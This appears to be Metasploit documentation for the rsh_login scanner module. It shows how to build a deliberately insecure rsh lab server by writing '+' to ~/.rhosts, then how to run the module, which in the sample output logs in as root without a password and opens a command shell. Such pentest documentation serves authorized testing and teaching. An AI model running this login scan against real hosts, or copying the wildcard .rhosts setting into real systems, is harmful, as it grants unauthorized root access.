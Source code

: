 ## Vulnerable Application

The R Services (rexecd, rlogind, and rshd) are a suite of unencrypted remote command/login services developed in the 1980s.
These services are all but unused in modern computing, as they have been replace by telnet and ssh.

`rsh` relies on host names as a security mechanism.  Utilizing `+` can wildcard so any computer can connect.  In the following
config, we'll utilize that wildcarded setting to simplify our exploitation.  This is a glaring security issue!!!

If you encounter `Host address mismatch for `..., you may need to adjust your `/etc/hosts` file accordingly.

The following was done on Kali linux:

  1. `apt-get install rsh-server` which includes: `rexecd`, `rlogind` and `rshd`.
  2. ```echo "+" > ~/.rhosts```
  3. Start the service: `service openbsd-inetd start`

## Verification Steps

  1. Install and configure rexec
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/rservices/rsh_login`
  4. Do: `set rhosts`
  5. Set any other credentials that will need to be set
  6. Do: `run`

## Scenarios

  A run against the configuration from these docs

  ```
    msf > use auxiliary/scanner/rservices/rsh_login 
    msf auxiliary(rsh_login) > set rhosts 10.1.2.3
    rhosts => 10.1.2.3
    msf auxiliary(rsh_login) > set username root
    username => root
    msf auxiliary(rsh_login) > run
    
    [*] 10.1.2.3:514     - 10.1.2.3:514 - Starting rsh sweep
    [*] 10.1.2.3:514     - 10.1.2.3:514 - Attempting rsh with username 'root' from 'root'
    [+] 10.1.2.3:514     - 10.1.2.3:514, rsh 'root' from 'root' with no password.
    [!] 10.1.2.3:514     - *** auxiliary/scanner/rservices/rsh_login is still calling the deprecated report_auth_info method! This needs to be updated!
    [!] 10.1.2.3:514     - *** For detailed information about LoginScanners and the Credentials objects see:
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/wiki/Creating-Metasploit-Framework-LoginScanners
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-HTTP-LoginScanner-Module
    [!] 10.1.2.3:514     - *** For examples of modules converted to just report credentials without report_auth_info, see:
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/pull/5376
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/pull/5377
    [*] Command shell session 1 opened (10.1.2.3:1023 -> 10.1.2.3:514) at 2017-05-11 19:56:46 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

## Confirming

At the time of writing this, there was no `nmap` script equivalent.  Most modern systems have also replaced `rsh` with `ssh`.